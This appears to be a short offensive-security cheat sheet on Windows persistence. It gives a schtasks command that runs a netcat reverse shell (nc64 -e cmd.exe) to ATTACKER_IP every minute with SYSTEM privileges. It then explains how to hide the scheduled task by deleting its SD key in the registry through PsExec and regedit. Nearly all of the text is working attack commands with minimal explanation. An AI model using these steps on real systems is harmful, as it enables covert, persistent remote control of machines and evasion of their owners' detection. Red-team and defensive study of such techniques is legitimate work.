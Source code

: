 
Create a new task
```CMD
schtasks /create /sc minute /mo 1 /tn TASK_NAME /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
```

The /sc and /mo options indicate that the task should be run every single minute. The /ru option indicates that the task will run with SYSTEM privileges.

Query a task
```CMD
schtasks /query /tn TASK_NAME
```


**Hiding the task**
```CMD
PsExec64.exe -s -i regedit
```

Go to 
```REG
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\TASK_NAME
```

Delete the SD key




